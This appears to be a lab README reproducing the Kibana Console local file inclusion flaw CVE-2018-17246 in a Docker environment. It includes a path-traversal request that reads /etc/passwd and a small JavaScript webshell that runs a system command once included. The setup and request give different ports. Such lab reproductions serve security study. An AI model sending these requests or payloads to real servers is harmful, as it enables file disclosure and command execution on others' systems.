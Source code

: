 # Kibana Local File Inclusion (CVE-2018-17246)

[中文版本（Chinese Version）](README.zh-cn.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 6.4.3 and 5.6.13 contain an arbitrary file inclusion flaw in the Console plugin. An attacker with access to the Kibana Console API could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References:

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/

## Setup

Start the Kibana 5.6.12 and Elasticsearch 5.6.16:

```
docker compose up -d
```

After started the environment, the Kibana is listening on `http://your-ip:5106`.

## Vulnerability Reproduce

Send the following request to trigger a basic path traversal:

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

Though there is nothing response except a error message with the 500 status code, you can see the exception in the `docker compose logs`:

![](1.png)

File `/etc/passwd` is imported successfully.

To exploit this vulnerability, you need to upload a JavaScript webshell to the machine where the Kibana is running, then include it.

```js
// docker compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
export default {asJson: function() {return require("child_process").execSync("id").toString()}}
```

![](2.png)

